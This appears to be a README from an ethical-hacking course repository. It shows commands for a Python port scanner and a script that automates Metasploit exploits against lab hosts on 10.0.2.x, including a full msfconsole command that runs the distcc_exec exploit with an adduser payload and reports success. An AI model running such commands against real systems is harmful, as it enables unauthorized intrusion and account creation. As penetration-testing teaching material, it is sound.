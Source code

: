 # Pentest


## Learn Python & Ethical Hacking 

---
* <a href="Tutorial.md">Tutorial.md</a>
---

---
## Device information:

  ```shell
  ifconfig
  ```

  ```shell
  ip -c a
  ```
  
  ```shell
  arp -a
  ```
  
  Windows  
  ```shell
  ipconfig /all
  ```

---


## scripts

1. <a href="#port_scanner">Port Scanner</a>
2. <a href="#exploits_and_payloads">Exploits and Payloads</a>



---

1. **Port Scanner** <a name="port_scanner"></a>  

    ```pycon
    cd 1_port_scan
    ```
    
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_1.py -t 10.0.2.4 -p 100
    
    ```
    
    Some servers may consider such requests as a hacking attempt and block your IP address:
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_2.py -t 10.0.2.1,10.0.2.4 -p 100
    
    ```

2. **Exploits and Payloads** <a name="exploits_and_payloads"></a>  

    ```pycon
    cd 2_exploits_and_payloads
    ```
   
   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ sudo python service_info_3.py 
   [sudo] пароль для kali: 
   {'PORT': '21/tcp', 'STATE': 'open', 'SERVICE': 'ftp', 'VERSION': 'vsftpd 2.3.4'}
   ```

   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python3 get_exploits_MSF.py
   ```
   
   ```pycon
   ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python MSF_exploits_and_payloads_1.py
   
   Trying exploit:  exploit/unix/misc/distcc_exec
   Trying payload:  payload/cmd/unix/adduser
   Trying command:  msfconsole -q -x "use exploit/unix/misc/distcc_exec; set payload payload/cmd/unix/adduser; set RHOSTS 10.0.2.4; set RPORT 3632; set LHOST 10.0.2.5; check; exit"
   [+] Successful exploitation:  exploit/unix/misc/distcc_exec, Payload: payload/cmd/unix/adduser
   - - - - - - - - - - - - - - - - - - - - 
   ```